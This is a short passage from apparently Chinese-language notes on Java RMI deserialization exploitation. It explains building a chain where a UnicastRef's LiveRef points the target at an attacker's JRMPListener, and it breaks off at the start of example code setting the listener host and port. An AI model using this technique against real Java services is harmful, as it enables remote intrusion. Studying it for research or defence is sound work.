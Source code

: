     ![image-20250428230530200](RMI/image-20250428230530200.png)
3. 和常规的链相比，一路顺下来，没什么需要额外考虑拼接的地方。初始化一个 `UnicastRef`， 其中的 `LiveRef ref` 指定连接的恶意服务器（也就是搭配 JRMPListener）来使用。代码大概可以如下：
    ```java
    public static void main(String[] args) throws Exception {
        // 指定的 JRMPListener 地址于端口
        String host = "127.0.0.1";
        int    port = 12233;
    